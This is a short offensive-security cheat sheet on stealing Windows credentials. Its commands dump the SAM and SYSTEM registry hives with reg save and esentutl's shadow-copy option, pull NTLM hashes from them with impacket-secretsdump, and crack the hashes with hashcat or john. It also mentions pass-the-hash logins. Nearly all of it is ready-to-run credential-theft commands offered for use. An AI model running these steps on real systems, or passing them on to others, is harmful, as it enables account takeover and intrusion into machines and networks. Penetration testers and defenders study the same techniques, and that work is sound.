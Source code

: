 # Dump Registry Hives

## 1. Dump Registry Hives

- Using `reg`

    Run the following command as Administrator/SYSTEM privileges that has the `SeBackupPrivilege`:

    ```powershell
    reg save HKLM\SAM .\sam.bak
    reg save HKLM\SYSTEM .\system.bak
    ```

- Using `esentutl`

    Alternatively, we can dump them using `esentutil` even if we don't have the `SeBackupPrivilege`:

    ```powershell
    # /y: Copy a file
    # /vss: Use Volume Shadow Copy (VSS)
    # /d: The destination path
    esentutl /y /vss C:\Windows\System32\config\SAM /d .\sam.save
    esentutl /y /vss C:\Windows\System32\config\SYSTEM /d .\system.save
    ```

## 2. Dump Password Hashes from Hives

After that, we can dump password hashes from these hives:

```sh
impacket-secretsdump -sam sam.save -system system.save LOCAL
```

## 3. (Option 1) Crack the Hashes

To crack the hashes, we need to extract the NT hash from the NTLM hashes. For example, assume we got the hash below:

```txt
Administrator:500:abcdefghi...:zyxwvuts...:::
```

We use the NT part (`zyxwvuts...`) for cracking:

```sh
echo -n "zyxwvuts..." > hash.txt
```

Now use `hashcat` or `john` to crack it:

```sh
hashcat -m 1000 hash.txt wordlist.txt
# or
john --format=nt --wordlist=wordlist.txt hash.txt
```

## 3. (Option 2) Pass-The-Hash

Even if the hash cannot be cracked, it may be possible to log into the target machine using NTLM or the NT hash.

## Resources

- [Dumping SAM via Esentutl.exe by Red Team Notes](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-sam-via-esentutl.exe)